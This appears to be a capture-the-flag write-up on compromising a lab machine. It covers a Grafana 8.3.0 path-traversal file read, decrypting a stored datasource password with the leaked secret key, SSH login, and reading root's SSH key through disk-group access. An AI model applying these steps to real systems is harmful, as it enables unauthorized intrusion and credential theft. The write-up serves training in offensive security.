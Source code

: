 # Fantastic

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.208.181                       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 16:49 +08
Warning: 192.168.208.181 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.208.181
Host is up (0.18s latency).
Not shown: 65412 closed tcp ports (conn-refused), 121 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

### Grafana LFI + Decrypt Password --> SSH Creds

Port 3000 was running Grafana:

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

This particular version had an LFI exploit:

```
$ searchsploit grafana 8.3.0 
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Rea | multiple/webapps/50581.py
----------------------------------------------------------- ---------------------------------
```

I verified that it works:

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

Since we don't have Grafana credentials, let's try to read it at `/etc/grafana/grafana.ini`. I found this within the configuration files:

```
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
;admin_password = admin

# used for signing
;secret_key = SW2YcwTIb9zpOOhoPsMm

# Path to where grafana can store temp files, sessions, and the sqlite3 db (if that is used)
;data = /var/lib/grafana

# For "sqlite3" only, path relative to data_path setting
;path = grafana.db
```

We can attempt to read the Grafana database from that folder. I copied the output to a file, and checked for instances of `admin`:

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

I also found this within it:

{% code overflow="wrap" %}
```
{"basicAuthPassword":"anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w=="}HkdQ8Ganz
```
{% endcode %}

This was an encoded password. Googling how to decrypt this led me to another Github repository:

{% embed url="https://github.com/jas502n/Grafana-CVE-2021-43798/tree/main" %}

To abuse this, replace the secret Key and encrypted password within the script:

```
var grafanaIni_secretKey = "SW2YcwTIb9zpOOhoPsMm"
var dataSourcePassword = "anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w=="
```

Afterwards, make sure that `go` has the `golang.org/x/crypto/pbkdf2@latest` module installed. This would let us decrypt the password:

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

With the password, I tested Grafana and SSH, and it worked for the `sysadmin` user:

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Disk Group --> Read SSH Key

We are part of the `disk` group, meaning we actually have full access to the file system through `debugfs`. First, let's check the different devices available:

```
sysadmin@fanatastic:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            445M     0  445M   0% /dev
tmpfs            98M  1.1M   97M   2% /run
/dev/sda2       9.8G  5.7G  3.7G  61% /
tmpfs           489M     0  489M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           489M     0  489M   0% /sys/fs/cgroup
/dev/loop0       71M   71M     0 100% /snap/lxd/21029
/dev/loop1       56M   56M     0 100% /snap/core18/2284
/dev/loop2       62M   62M     0 100% /snap/core20/1328
/dev/loop3       68M   68M     0 100% /snap/lxd/21835
/dev/loop4       56M   56M     0 100% /snap/core18/2128
/dev/loop5       33M   33M     0 100% /snap/snapd/12883
/dev/loop6       44M   44M     0 100% /snap/snapd/14549
tmpfs            98M     0   98M   0% /run/user/1001
```

`/dev/sda2` is obviously the main file system. We can then grab the `root` user's private SSH key:

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

Then, we can `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
